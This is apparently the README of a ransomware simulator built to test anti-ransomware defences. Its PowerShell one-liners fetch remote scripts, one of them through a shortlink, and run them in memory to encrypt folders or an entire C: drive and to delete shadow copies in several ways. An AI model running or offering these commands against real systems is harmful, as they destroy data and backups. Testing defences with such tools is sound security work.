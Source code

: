 # RansomSimulator

Fileless ransomware simulator - to evaluate your anti-ransomware mitigation technology

**Example:**

Encryption - 

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Encrypt -Path 'C:\Users\tester\Documents\Test';`

You may use shortlinks as well, example: 

`PS> IEX (New-Object Net.WebClient).DownloadString("https://lnkd.in/gzTmAiKu"); Invoke-RansomSIM -Mode Encrypt -Path 'C:\';`

Decryption - 

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1"); Invoke-RansomSIM -Mode Decrypt -Path 'C:\Users\tester\Documents\Test';`

# AutoIt
An autoIt script - you may compile it to an executable using Aut2Exe, or execute it using the interpreter (encrypts only .doc files)

**Example:**

Encryption - 

`RansomSIM.exe /encrypt C:\`
  
Decryption - 

`RansomSIM.exe /decrypt C:\`

# Simulator for shadow copy manipulation
an aggregation of technique as implemented by ransomware groups to delete shadow copies, usually is performed before the ransomware encryption

Example Modes: ('All','VssDeleteAll', 'WmiDeleteAll', 'VssResize', 'DeleteEach', 'CimDelete', 'NativeDelete'):

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-ShadowDeleteSIM.ps1"); Invoke-ShadowDeleteSIM -Mode All -Volume 'C:\\'`

`PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-ShadowDeleteSIM.ps1"); Invoke-ShadowDeleteSIM -Mode VssDeleteAll -Volume 'C:\\'`

